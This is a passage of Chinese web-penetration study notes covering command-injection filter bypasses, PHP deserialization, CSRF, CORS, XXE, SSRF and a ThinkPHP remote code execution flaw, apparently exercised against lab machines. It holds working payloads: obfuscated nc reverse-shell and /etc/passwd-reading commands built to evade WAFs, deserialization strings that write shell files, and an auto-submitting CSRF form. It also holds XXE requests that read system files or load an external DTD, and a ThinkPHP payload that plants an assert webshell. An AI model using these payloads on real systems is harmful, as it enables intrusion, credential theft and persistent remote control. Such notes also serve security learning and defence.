- `[-]`若有减号在中括号内时,代表`[在编码顺序内的所有字符]`.例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- `[^]`若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c\a\t /e\t\c/p\as\swd
//组合------c'a't /??c//p?/s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```

------


```cmd
//windows绕过
//大小写混合绕过
(((WH^O^am""i)))

//set命令和windows变量绕过
set a=ichunqiu
echo %a%

set i=ipconfig
%i%

set z=ipc
set x=onfig
%z%%x%

//字符串切割
echo  %a% --> whoami
%a:~0.6%

//逻辑运算符
whoami | net user  -->执行命令2
whoami || net user -->命令1失败执行命令2
whoami & net user  -->无论1是否成功都会执行命令2
```

------

### 反序列化漏洞

#### 概念

- 定义:将对象的`状态信息`转换为`可以存储或传输的形式`(字符串的过程).在序列化期间,对象将其当前状态写入到临时或持久性存储区.之后可以通过存储区中读取或反序列化对象的状态,重新创建该对象
- 即:序列化就是把一个`对象变成可以传输的字符串`,可以以特定的格式在进程之间跨平台,安全的进行通信
- 用途:方便`对象`在网络中的传输与存储
- 序列化与反序列化的过程:
  - 序列化:将对象转换为流,利于存储和传输的格式
  - 反序列化:将流转化为对象

****

#### 序列化

```php
<?php
class Stu{
	public $name;
	public $sex;
	public $age;
	public $score;
}
?>
    

//使用serialize(),将$stu1这个对象序列化成一个字符串
<?php
include "classStu.php";
$stu1=new Stu();
$stu1->name="ichunqiu";
$stu1->sex=true;
$stu1->age=23;
$stu1->score=100;
echo serialize($stu1);
?>
```


------

#### 反序列化

```php
<?php
    include "class.php";
	$stu1=
    <<<STR
    O:3:"Stu":4:{s:4:"name";s:8:"ichunqiu";s:3:"sex";b:1;s:3:"age";i:24;s:5:"score";d:100;}
    STR;
	$stu1=unserialize($stu1);
	var_dump($stu1);
?>
```



- 概念:php反序列化漏洞也叫`php对象注入`
- 危害:这些漏洞很难利用,但是一旦利用成功`非常危险`
- 形成原因:程序`没有对用户输入的反序列化字符串进行检测`,导致反序列化过程可以被恶意控制,进而造成代码执行,getshell等一系列不可控的后果.反序列化漏洞并不是php特有,也存在python,java等语言中

------

#### 常见的魔法函数

- `_construct()`:当一个`对象创建`时被调用(相当于c++构造函数)
- `_destruct()`:当一个`对象销毁`时被调用(c++的析构函数)
- `_sleep()`:将在unserialize()函数执行``反序列化`时使用
- `_weekup()`:将在unserialize()函数执行`反序列化`时调用
- `_toString()`:当一个`对象被当作一个字符串`时使用

```php
<?php
class Test{	//创建一个类
public $str='ichunqiu;';
function _destruct(){
//通过反序列化，调用A对象，因为PHP魔法函数的缘故，他会自动执行destruct()
@system($this->str);}
 //创建一个类的对象，并将其序列化
$test = new Test();
//echo serialize($test);
echo "<pre>";
//反序列化，将得到的序列化字符串反序列化为对象
unserialize($_GET['code']);
?>    
```

```php
//payload
?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
?code=O:4:"Test":1:{s:3:"str";s:6:"ipconfig";}
```



```php
<?php
class Hello{
var $test ='123';
function _wakeup(){
$fp = fopen("shell.php","w+");
fwrite($fp,$this->test);
fclose($fp);}}
$class3 = $ GET['code'];
print _r($class3);
echo "</br>";
$class3 _unser= unserialize($class3);
?>
```

```php
//payload
?code=O:5:"Hello":1:{s:4:"test";s:19:"<?php phpinfo();?>";}
```

****

### CSRF(跨站请求伪造)

#### 概念

- `诈骗链接`

- 概念:跨站请求伪造(Cross-site request forgery，CSRF)是一种攻击，它强制终端用户在当前对其进行身份验证后的Web应用程序上`执行非本意的操作`。CSRF攻击的着重点在`伪造更改状态的请求`，而`不是盗取数据`，因为攻击者无法查看对伪造请求的响应
- 借助社工的一些帮助(例如通过电子邮件或聊天发送链接)，攻击者可以`诱骗用户执行攻击者选择的操作`。如果受害者是`普通用户`，则成功的CSRF攻击可以`强制用户执行状态更改`的请求，例如转移资金，更改其电子邮件地址等。如果受害者是`管理帐户`CSRF可能会`危及整个Web应用程序`
- 原理:CSRF是一种`欺骗`受害者提交恶意请求的攻击,它`继承了受害者的身份和权限`,代表受害者执行`非本意`,`恶意`的操作
- 关键点:对于大多数站点，浏览器请求`自动发送`与站点关联的所有凭据，例如用户的会话cookie，IP地址，Windows域凭据等.因此，如果用户当前已对该站点进行了身份验证，则该站点将`无法区分`受害者发送的伪造请求和受害者发送的合法请求
- 条件:
  - 登录`受信任网站A`,并在`本地生成Cookie`
  - 在`不登出A`的情况下,`访问危险网站B`

****

#### CSRF的危害和防御

- CSRF漏洞`危害`
  - 攻击者盗用了用户的身份后，以用户的名义发送恶意请求;
  - CSRF的恶意操作:以用户名义发送邮件，发消息，盗取账号，购买商品，虚拟货币转账等等，
  - 造成的问题包括:个人隐私泄露以及财产安全问题。
- CSRF漏洞`防御`
  - 验证Referer字段----如果Referer是`其他网站`的话，就有可能是CSRF攻击，则拒绝该请求.。
  - 添加Token验证----可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中`没有token`或者`token内容不正确`，则认为可能是CSRF攻击而拒绝该请求。
  - 二次验证----在转账等`关键操作之前`提供当前`用户的密码`或者`验证码`
  - 用户养成良好的习惯----不要随意点击链接和图片、及时退出长时间不使用的已登录账户、安装合适的安全防护软件

------

#### CSRF和XSS的区别

- 从`原理`的角度
  - XSS是将`恶意的代码插入到html页面`中，当用户浏览页面时，插入的html代码会被执行，从而达到最终目的。
  - CSRF是一种`欺骗受害者`提交恶意请求的攻击。代表受害者执行`非本意、恶意`的操作
- 其他角度:
  - 1.CSRF比XSS漏洞危害更高，相对XSS而言较难防御。
  - 2.CSRF可以做到的事情，XSS都可以做到。
  - 3.XSS有局限性，而CSRF没有局限性:
  - 4.XSS针对`客户端`，而CSRF针对`服务端`
  - 5.XSS是`利用合法用户`获取其信息，而CSRF是`伪造成合法用户`发起请求。

****

#### 同源策略

- 定义:如果两个页面的`协议`，`端口`(如果有指定)和`域名`都`相同`，则两个页面`具有相同的源`
- 概况:
  - 同源策略是浏览器的一个`安全功能`，`不同源`的客户端脚本在`没有明确授权`的情况下，不能读写对方资源。
  - 同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
  - 这是一个用于`隔离潜在恶意文件`的重要安全机制。
- 受约束对象:`DOM`,`Cookie`,`第三方插件`以及`XMLHttpRequest`都受到`同源策略`的约束
- 不受约束的对象:
  - 页面中的`链接`，`重定向`以及`表单`提交是不会受到同源策略限制的。
  - 跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的<script>，，<link>，<iframe>等带`src属性`的标签。
- 非同源收到的限制:
  - Cookie、LocalStorage 和 IndexDB 无法读取。
  - DOM 无法获得。
  - AJAX 请求不能发送。

****

#### 跨域

- 概念:受前面所讲的浏览器同源策略的影响，不是同源的脚本`不能操作其他源`下面的对象。想要`操作另一个源下的对象`是就需要`跨域`
  简单的说，我们把`不同域`之间`请求数据`的操作，称为跨域

****

##### document.domain跨域

- `方法`:
  - document.domain跨域(两个页面`一级域名相同`,只是`二级域名不同`,可用该设置共享Cookie)
    - 只能在`父域名`与`子域名`之间使用
    - `存在安全性问题`,当一个站点被攻击以后,另一个站点会引起安全漏洞
    - 只适用于`Cookie`和`iframe`窗口

****

##### JSONP跨域

- 说明:利用`<script>的src不受同源策略约束`实现跨域获取数据
- `Jsonp(SON with Padding)`是json 的一种"使用模式"，可以让网页从别的域名(网站)那获取资料，即跨域读取数据。
- 存在问题:
  - 存在`安全性`问题需要网站双方商议基础token的身份验证
  - 只能是`GET`，不能POST
  - 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

****

##### CORS跨域

- CORS全称为`跨域资源共享`
- 说明:CORS是一个W3C标准,允许浏览器向跨源服务器发送`XMLHttpRequest`请求
- 利用`javascript`无法控制`http头`的特点,通过目标返回的`http头授权`是否允许跨域访问
- 检测方式:
  - curl https://www.baidu.com -H "Origin:https://qq.com" -I ,检查返回包的`Access-Control-Allow-Origin`字段是否为
  - https://qq.com
  - bp发送请求包,查看返回包的tips值,当它为null,代表信任任何域

****

#### CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  

------

#### 实战

> CSRF(get)


- 进入登录页面修改信息,然后`抓包拦截`


- 直接修改放行http://192.168.100.40:49615/csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- 

- 可以发现修改`成功`!

------

> CSRF(post)

- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- 

------

> CSRF(token)

- 下载插件
- 
- 发送到重放器,修改数据,发送请求




- 可以发现修改成功!

------

> document.domain跨域

- 创建如图树结构的文件
- 

```html
<!sub1.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 1</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8002/sub2.html'); // 使用实际的 URL
            otherWindow.postMessage('Hello from Subdomain 1!', 'http://localhost:8002');
        }

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8002') {
                alert('Received message: ' + event.data);
            }
        });
    </script>
</head>
<body>
    <h1>sub1</h1>
    <button onclick="sendMessage()">发送到sub2</button>
</body>
</html>

```

```html
<!sub2.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 2</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8001') {
                alert('接收信息: ' + event.data);
            }
        });

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8001/sub1.html'); // 使用实际的 URL
            otherWindow.postMessage('来自sub2!', 'http://localhost:8001');
        }
    </script>
</head>
<body>
    <h1>sub2</h1>
    <button onclick="sendMessage()">发送到sum1</button>
</body>
</html>
```

- 在两个`html`目录下分别开启`8001`和`8002`端口
- 


- 访问http://127.0.0.1:8001/sub1.html


------

> JSONP跨域

- 我使用的是`node.js`

- 

  

```js
//server.js

const express = require('express');
const app = express();

app.get('/api/data', (req, res) => {
  const callback = req.query.callback; // 获取回调函数名称
  const data = { message: '这是jsonp实现的跨域' };
  res.type('application/javascript'); // 设置响应类型
  res.send(`${callback}(${JSON.stringify(data)})`); // 返回JSONP格式
});

app.listen(3000, () => {
  console.log('请访问:http://localhost:3000/api/data?callback=handleData');
});
```

```html
<!index.html>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>JSONP实现跨域</title>
  <script>
    function handleResponse(data) {
      console.log(data); // 处理返回的数据
      document.body.innerHTML += `<p>${data.message}</p>`;
    }

    function fetchData() {
      const script = document.createElement('script');
      script.src = 'http://localhost:3000/api/data?callback=handleResponse';
      document.body.appendChild(script); // 动态插入script标签
    }
  </script>
</head>
<body onload="fetchData()">
  <h1>JSONP示例</h1>
</body>
</html>

```

- 运行`server.js`,访问http://localhost:3000/api/data?callback=handleData


------

> CORS跨域

- 跟`jsonp`差不多

- ```js
  //server1.js
  
  const express = require('express');
  const cors = require('cors');
  
  const app = express();
  const PORT = 8001;
  
  // 启用 CORS
  app.use(cors());
  
  
  app.get('/api/data', (req, res) => {
      res.json({ message: '你好 CORS!' });
  });
  
  // 启动服务器
  app.listen(PORT, () => {
      console.log(`Server running on http://localhost:${PORT}`);
  });
  ```

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>CORS Example</title>
  </head>
  <body>
      <h1>CORS 示例</h1>
      <button id="fetchButton">获取数据</button>
      <pre id="output"></pre>
  
      <script>
          document.getElementById('fetchButton').addEventListener('click', () => {
              fetch('http://localhost:8001/api/data', {
                  method: 'GET',
                  headers: {
                      'Content-Type': 'application/json'
                  }
              })
              .then(response => {
                  return response.json();
              })
              .then(data => {
                  document.getElementById('output').textContent = JSON.stringify(data, null, 2);
              })
          });
      </script>
  </body>
  </html>
  ```

  



****

### XXE (外部实体注入)

#### XML(可扩展标识语言)

- 概念

  - XML是The Extensible Markup Language(可扩展标识语言)的简写
  - XML最初的目的是弥补HTML的不足，后来逐渐用于`网络数据的转换和描述`，`XML`的设计宗旨是`传输数据`,不是显示数据
  - XML在web中的应用已十分广泛。XML是各种应用程序之间`数据传输`最常用的数据格式。

- 与`html`区别

  - `html`是被用来`展示数据`,`xml`是用来`传输数据`

- 语法结构:

  - 分为两部分,一部分是`标签的定义`,一部分是`标签的解释`,标签的解释也成为`DTD`(document type definition)

  - ```DTD
    <?xml version="1.0"?>
    <!DOCTYPE note[>
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT from(#PCDATA)>
    <!ELEMENT body (#PCDATA)>
    ]>
    ```

****

#### DTD文档介绍

- 概念:

  - DTD使数据格式之间`按照相同的标准`来`传输`
  - DTD是一种XML`约束模式`语言,用来`解释XML文档`

- 分类:分为`内部DTD文档`和`外部DTD文档`

- 语法结构

  - ```dtd
    //内部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore [
        <!ELEMENT bookstore (book+)>
        <!ELEMENT book (title, author, year, price)>
        <!ELEMENT title (#PCDATA)>
        <!ELEMENT author (#PCDATA)>
        <!ELEMENT year (#PCDATA)>
        <!ELEMENT price (#PCDATA)>
    ]>
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    ```

  - ```dtd
    //bookstore.dtd
    <!ELEMENT bookstore (book+)>
    <!ELEMENT book (title, author, year, price)>
    <!ELEMENT title (#PCDATA)>
    <!ELEMENT author (#PCDATA)>
    <!ELEMENT year (#PCDATA)>
    <!ELEMENT price (#PCDATA)>
    ----------------------------------------------
    
    //外部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore SYSTEM "bookstore.dtd">
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    
    ```

****

#### XML实体介绍

- 概念:
  - XML语言的`变量`，和PHP、JSP、C语言变量一样，有`变量名`(实体名)、
    `变量值`(实体的值),可以通过`&/%`引用
  - XML实体类型:`普通`实体和`参数`实体，用下表总结两种实体类型:
  - 

****

#### XEE漏洞原理

- XEE漏洞也叫XML外部实体注入,XEE漏洞发生在应用程序`解析xml输入时`,`没有禁止外部实体的加载`,导致可`加载恶意外部文件`
- 漏洞的`产生`:对上传的xml文件`没有进行过滤`,导致可`上传恶意xml文件`
- 漏洞的`危害`:
  - 读取任意文件
  - 执行系统命令
  - 内网端口扫描
  - 攻击内网其它网站
- 漏洞的`防御`和`修复`
  - `禁止使用外部实体`,例如`ibxml_disable_entity_loader(true)`
  - `过滤`用户提交的`xml数据`,防止出现非法内容

****

#### 漏洞利用

- `任意文件读取`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<name>&xxe;</name>
```

- `远程端口探测`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "http://ip:探测端口号/test/">]>
<name>&xxe;</name>
```

- `远程命令执行`

```dtd
//前提:php环境中安装了exepect扩展

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "expect://系统命令">]>
<name>&xxe;</name>
```

****

### SSRF漏洞原理

- SSRF(Server-side Request Forgery, 服务端请求伪造)是一种由`攻击者构造`形成由`服务端发起请求`的安全漏洞。一般情况下，SSRF攻击的`目标`是`从外网无法访问的内部系统`。正是因为它是由`服务端发起`的，所以它能够请求到`与它相连而与外网隔离的内部系统`。
- 存在漏洞位置;
  - 分享:通过URL地址分享网页内容
  - 转码服务
  - 在线翻译
  - 图片加载与下载:通过URL地址加载或下载图片
  - 图片、文章收藏功能
  - 未公开的api实现以及其他调用URL的功能
  - 从URL关键字中寻找
- 危害:
  - 端口扫描
  - 内网web应用指纹识别
  - 攻击内网web应用
  - 读取本地文件
- 修复
  - 限制请求的`端口只能为web端口`，只允许访问HTTP和HTTPS的请求
  - 设置`白名单`，或`限制内网IP`，以防止对内网进行攻击
  - 禁止`30x跳转`
  - 屏蔽返回的详细信息
- 相关`危险函数`

```php
/*

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取的函数以PHP为例，涉及到的函数有
file get contents() -- file_get_contents是把文件写入字符串，当把url是内网文件的时候，会先去把这个文件的内容读出来再写入，导致了文件读取
fsockopen()-- fsockopen是打开一个网络连接或者Unix套接字连接
curl_exec() --利用方式很多，最常见的是通过fie、dict、gopher这三个协议来进行渗透
```

****

#### SSRF漏洞利用









****

#### SSRF常见的限制和绕过

   1.限制 http://www.aaa.com 域名

- 采用http基本身份认证的绕过方式，即使用@绕过。如http://www.aaa.com@www.bbb.com@www.ccc.com

- 注意:在对@解析域名中，不同的处理函数存在处理差异。如:在PHP的parse url中会识别www.ccc.com，而libcur则识别为www.bbb.com限制请求IP不为内网地

  - 绕过方法:
    采取短网址绕过，站长工具短网址 http://tool.chinaz.com/tools/dwz.aspx，跳转要去的地址
    3.采取特殊域名，如:xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1
    4.采取进制转换。如:127.0.0.1 转换成十六进制 0x7f.0.0.1
    5.采取302跳转，使用302跳转地址
    4.采取短地址

****

### XXE和SSRF实战

#### XEE注入


- 打开`bp`进行抓包
- 构造payload

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 164
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<user><username>&content;</username><password>admin</password></user>
```



****

#### 内部DTD

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 200
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&test;</username><password>admin</password></user>
```



- 解密来看看

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

****

#### 内网探测

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 217
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.100.40:56758/">
]>
<user><username>&test;</username><password>admin</password></user>
```



```html
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <link rel="shortcut icon" href="img/favicon.png" type="image/x-icon">
	
	<title>XXE-Lab</title>

	<meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <meta name="viewport" content="width=device-width" />

	<link rel="stylesheet" type="text/css" href="css/font.css" />
	<link href="css/bootstrap.min.css" rel="stylesheet" />
	<link href="css/material-bootstrap-wizard.css" rel="stylesheet" />
</head>

<body>
	<div class="image-container set-full-height" style="background-color: #272822;">
	    <!--   Creative Tim Branding   -->
	    <!--   Big container   -->
	    <div class="container" style="width: 970px;">
	        <div class="row">
		        <div class="col-sm-8 col-sm-offset-2">
		            <!--      Wizard container        -->
		            <div class="wizard-container">
		                <div class="card wizard-card" data-color="green" id="wizardProfile">
		                    <form>
		                    	<div class="wizard-header">
		                        	<h3 class="wizard-title">
		                        	   <a href="http://github.com/c0ny1/xxe-lab">XXE-Lab for PHP</a>
		                        	</h3>
									
		                    	</div>
								<div class="wizard-navigation">
									<ul>
			                            <li><a href="#about" data-toggle="tab">tips:</a></li>
			                            <li><a href="javascript:void(0)" ><span style="color:red;" class="msg"></span></a></li>
										<li><a href="javascript:void(0)"></a></li>
			                        </ul>
								</div>

		                        <div class="tab-content">
		                            <div class="tab-pane" id="about">
		                              <div class="row">
		                                	<div class="col-sm-6">
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-icon30" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
			                                          <label class="control-label">UserName</label>
			                                          <input id="username" name="username" style="width: 200%;" type="text" class="form-control">
			                                        </div>
												</div>
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-mima" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
													  <label class="control-label">Password</label>
													  <input id="password" name="password" style="width: 200%;" type="password" class="form-control">
													</div>
												</div>
		                                	</div>
		                            	</div>
		                            </div>
		                            
		                            
		                        </div>
		                        <div class="wizard-footer">
		                            <div class="pull-right">
		                                <input type='button' class='btn btn-fill btn-success btn-wd' name='next' value='login' onclick="javascript:doLogin()" />
		                            </div>

		                            <div class="clearfix"></div>
		                        </div>
		                    </form>
		                </div>
		            </div> <!-- wizard container -->
		        </div>
	        </div><!-- end row -->
	    </div> <!--  big container -->

	    <div class="footer">
	        <div class="container text-center">
	             Copyright By <a href="https://etimeci.com">etimeci</a>
	        </div>
	    </div>
	</div>
</body>
<!--   Core JS Files   -->
<script src="js/jquery-2.2.4.min.js" type="text/javascript"></script>
<script src="js/bootstrap.min.js" type="text/javascript"></script>
<script src="js/jquery.bootstrap.js" type="text/javascript"></script>

<!--  Plugin for the Wizard -->
<script src="js/material-bootstrap-wizard.js"></script>

<script src="js/jquery.validate.min.js"></script>
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
</html>
```

****

#### 外部DTD



```cmd
//开一个8000端口
python -m http.server 8000
```



```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 260
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE root [
  <!ENTITY % test SYSTEM "http://192.168.71.29:8000/Desktop/eval.dtd">
  %test;
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&xxe;</username><password>admin</password></user>
```

****

#### ssrf获取正常文件

```php
//2.php
<?php
function curl($url){
    $ch=curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
    curl_close($ch);
}
$url=$_GET['url'];
curl($url);
?>
```


****

#### Redis未授权访问



- 确保以上两个虚拟机`同时开启`
- 使用端口扫描工具扫描ip并访问


- 查看是否能够`成功`访问到`redis`服务器

- ```http
  http://192.168.234.170/ssrf3.php?url=http://192.168.234.100
  ```


- 利用`dict协议`测试服务器是否开放了`redis`服务

- ```http
  http://192.168.234.170/ssrf3.php?url=dict://192.168.234.100:6379
  ```




- 这里我使用`物理机`进行监听



- 监听端口

- ```cmd
  nc -lvp 7777
  ```




- `成功监听`,并且获取权限,查看端口号



****

### 中间件与框架漏洞

#### ThinkPhp漏洞

> ThinkPhp`5.0.20`远程代码执行漏洞

- 漏洞`产生`:由于没有正确处理控制器名,导致网站没有开启强制路由的情况(即默认情况下)可以执行任意方法,从而导致`远程命令执行漏洞`
- 影响`版本`:`5.0.x < ThinkPhp 5.1.x < 5.1.31`


#### `ThinkPhp`5.0.20远程代码执行

- 报错查看`版本信息`

- 构造`payload`

- ```php
  ?s=/Index//think/app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
  ```



- 执行`系统命令`-->`whoami`

- ```php
  ?s=index/think/app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
  ```

  

- 写入`webshell`

- ```php
  ?s=/index//think/app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell5.php&vars[1][]=<?php @assert($_REQUEST['cmd']);echo "success";?>
  ```

  

- 使用`工具检测`



------

> ThinkPhp`6.0.12`文件包含漏洞

